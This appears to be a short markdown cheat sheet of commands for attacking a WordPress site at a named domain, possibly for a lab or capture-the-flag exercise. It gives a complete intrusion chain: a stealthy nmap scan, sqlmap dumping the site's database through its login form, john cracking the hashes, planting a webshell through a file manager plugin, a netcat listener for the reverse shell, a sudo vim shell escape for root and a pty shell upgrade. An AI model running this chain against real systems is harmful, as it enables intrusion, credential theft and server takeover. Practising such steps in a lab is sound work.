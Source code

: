 # List of useful commands
This list contains useful commands to use during the attack

# Port enumeration
Enumerates all the open ports in a stealthier way\
`nmap -sS -sV -vv 10.0.1.1 -p-`

# Dumping database
Dumping the database via SQLi\
`sqlmap -u http://www.quinteflush.org/login.php --forms --dump --dbs --batch`

# Crack the hash
From the database, crack the hash in hope of finding an admin password for wordpress\
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Then login to `http://www.quinteflush.org/wp-admin` via `admin:********`.\
Install a file manager plugin and replace a webpage with a webshell.

# Webshell
Use a listener on 0.0.0.0 with either port 80/tcp, 443/tcp or 53/tcp\
`nc -lvnp 53`\

Go to the edited webpage to trigger the webshell

# Privilege Escalation
First, let's enumerate all what are the sudo rights given to www-data\
`sudo -l`
\
privilege escalation (gtfobins)\
`sudo vim -c ':!/bin/sh'`\
\
upgrade the shell to interact better with the system\
`python3 -c 'import pty; pty.spawn("/bin/bash")'`